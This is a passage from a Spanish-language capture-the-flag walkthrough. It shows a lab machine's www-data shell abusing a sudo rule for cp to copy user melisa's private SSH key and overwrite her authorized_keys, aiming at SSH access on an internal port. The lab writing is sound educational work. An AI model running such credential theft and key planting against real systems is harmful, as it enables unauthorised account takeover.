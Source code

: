 Bien, ya tenemos shell, por lo que antes de nada realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) para que sea completamente interactiva.

~~~~bash
www-data@five:/$ export TERM=xterm-256color
www-data@five:/$ export SHELL=bash
www-data@five:/$ stty rows 44 columns 185
www-data@five:/$ cd /home
www-data@five:/$ ls
melisa
www-data@five:/home$ ls -l melisa
total 4
-rw------- 1 melisa melisa 14 Oct  5  2020 user.txt
~~~~

No tenemos permiso para leer la primera flag, así que tenemos que buscar la forma de pivotar al usuario *melisa*. Como hacemos siempre, vamos a mirar la lista de permisos que tenemos para usar privilegios de otro usuario:

~~~~bash
www-data@five:/home$ sudo -l
Matching Defaults entries for www-data on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on five:
    (melisa) NOPASSWD: /bin/cp
~~~~

Visto así, de primeras no se me ocurre para qué nos puede servir.

Si seguimos reconociendo el sistema y revisamos las conexiones internas, tanto TCP como UDP:

![](/assets/images/five/ss.png){: .align-center}

Vemos un puerto interno no accesible desde fuera, si investigamos qué es:

~~~~
www-data@five:/home$ nc localhost 4444
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
~~~~

Hemos descubierto acceso SSH, con lo cual, parece que ya encontramos el camino a seguir.

Como tenemos la posibilidad de ejecutar el comando *cp* como *melisa*, podemos intentar copiar su clave privada para conectarnos como ella por SSH.

Vamos a realizar las siguientes operaciones y a pasar a explicarlas:

~~~~bash
www-data@five:/home$ cd /tmp
www-data@five:/tmp$ touch id_rsa
www-data@five:/tmp$ sudo -u melisa cp /home/melisa/.ssh/id_rsa /tmp/clave/id_rsa
www-data@five:/tmp$ chmod 600 id_rsa
www-data@five:/tmp$ ssh-keygen -y -f id_rsa > id_rsa.pub
www-data@five:/tmp$ sudo -u melisa cp id_rsa.pub /home/melisa/.ssh/authorized_keys
~~~~
